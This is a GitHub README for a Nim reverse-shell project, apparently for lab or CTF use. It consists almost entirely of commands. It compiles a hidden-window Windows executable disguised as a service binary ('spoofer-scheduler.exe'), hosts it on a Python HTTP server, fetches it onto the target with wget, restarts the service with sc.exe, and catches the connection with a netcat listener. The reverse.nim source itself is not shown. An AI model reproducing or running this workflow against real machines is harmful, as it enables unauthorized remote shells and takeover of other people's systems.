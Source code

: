 # nim-reverse-shell
nim-reverse-shell


Example:

```
sudo apt install nim
```
update the script

![image](https://github.com/c0d3cr4f73r/nim-reverse-shell/assets/66146701/e9e8e972-9229-441e-8aba-39aea2448dc7)

```
nim c -d:mingw --app:gui --opt:speed -o:spoofer-scheduler.exe reverse.nim
```

![image](https://github.com/c0d3cr4f73r/nim-reverse-shell/assets/66146701/2e38dd6c-5364-433a-b787-70ec5248c23c)

```
python3 -m http.server 8888
```
```
wget http://tun0:8888/spoofer-scheduler.exe -o spoofer-scheduler.exe
```
![image](https://github.com/c0d3cr4f73r/nim-reverse-shell/assets/66146701/a6a6fd1a-0fae-4f09-b571-bbbb7e387ab2)

```
sc.exe stop spoofer-scheduler
sc.exe start spoofer-scheduler
```
![image](https://github.com/c0d3cr4f73r/nim-reverse-shell/assets/66146701/a017ba7e-3a5d-47cb-9811-52311bbd9c85)

```
nc -nlvp 8080
```
![image](https://github.com/c0d3cr4f73r/nim-reverse-shell/assets/66146701/79bc6165-e7ed-41a8-a27b-91a21e3a0b53)
